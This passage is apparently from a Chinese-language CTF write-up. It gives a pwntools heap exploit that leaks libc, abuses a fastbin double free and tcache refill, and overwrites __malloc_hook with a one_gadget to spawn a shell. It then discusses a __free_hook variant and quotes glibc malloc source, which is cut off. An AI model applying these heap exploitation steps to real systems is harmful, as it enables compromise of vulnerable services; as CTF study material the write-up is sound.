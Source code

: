 ```python
def call(idx):
    r.sendlineafter('Input your choice:', '4')
    r.recvuntil('Be brave,speak out your love!\n')
    r.sendlineafter('Please input the index:\n', str(idx))
        
add(0x410, "A", "A") # 0
add(0x60, "B", "B") # 1, prevent consolidate
call(0)
show_info(0) # leak libc
r.recvuntil('name:\n')
libc = u64(r.recvuntil('phone:', drop=True).ljust(8, b'\x00')) - 0x3b1ca0
libc &= 0xffffffffffff
oneshot = libc + 0xdf991 # 0xc224f, 0xdf991, 0xdf99d
__malloc_hook = libc + 0x3b1c30
__libc_realloc = libc + 0x80ef0
target = __malloc_hook - 0x13
info(f"libc: {hex(libc)}")

for i in range(2, 10): # 2 - 9
    add(0x60, f"{i}", f"{i}")

call(1)
for i in range(2, 8):
    call(i)

call(8)
call(9)
call(8)

for i in range(10, 17): # 10 - 16
    add(0x60, f"{i}", f"{i}")

add(0x60, p64(target), 'C')
add(0x60, 'D', 'D')
add(0x60, 'E', 'E')
add(0x60, b'\xff'*0xb + p64(oneshot) + p64(__libc_realloc), 'F')
r.sendlineafter('Input your choice:', '1')

r.interactive()
```



再來是 `free_hook()` 比較保險的版本，原本以為 `__free_hook` 上下都是 0，沒辦法透過 `malloc()` 拿到正確的位置，不過在 `_IO_stdfile_0_lock+8`，也就是 `free_hook` 上方剛好有一個 libc address，`0x7f` 的開頭可以利用，而 [[House Of Roman](https://gist.github.com/romanking98/9aab2804832c0fb46615f025e8ffb0bc#introduction)](https://gist.github.com/romanking98/9aab2804832c0fb46615f025e8ffb0bc) 是利用 unsorted bin attack 來在 `free_hook` 上方寫 libc address。不過如果 tcache 已經被清空，而 fastbin 還有 chunk 的情況下，fastbin 的 chunk 會被丟回去 tcache，也因此避免掉 chunk size 的限制，以下為該段程式碼

```c
#if USE_TCACHE
	      /* While we're here, if we see other chunks of the same size,
		 stash them in the tcache.  */
	      size_t tc_idx = csize2tidx (nb);
	      if (tcache && tc_idx < mp_.tcache_bins)
		{
		  mchunkptr tc_victim;

		  /* While bin not empty and tcache not full, copy chunks.  */
		  while (tcache->counts[tc_idx] < mp_.tcache_count
			 && (tc_victim = *fb) != NULL)
		    {
		      if (SINGLE_THREAD_P)
			*fb = tc_victim->fd;
		      else
```